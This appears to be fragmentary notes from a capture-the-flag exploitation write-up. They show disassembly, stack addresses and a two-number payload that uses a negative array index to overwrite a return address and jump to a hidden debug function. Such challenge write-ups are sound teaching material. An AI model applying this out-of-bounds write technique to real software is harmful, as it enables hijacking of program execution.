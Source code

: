 `debug : 0x00000000004007d6`

```
0x0000000000400aa4 <+701>:	call   0x4006b0 <__isoc99_scanf@plt>
0x0000000000400af6 <+783>:	call   0x4006b0 <__isoc99_scanf@plt>
0x0000000000400b9a <+947>:	call   0x4006b0 <__isoc99_scanf@plt>
0x0000000000400c38 <+1105>:	call   0x4006b0 <__isoc99_scanf@plt>
```


base array addr --> 0x7fffffffe2b0

print "Are you sure ? (yes:1 / no:0) " ret addr --> 0x7fffffffe288

0x7fffffffe288 - 0x7fffffffe2b0 = -40

-40 / 8 = -5 


payload:

-5
4196310
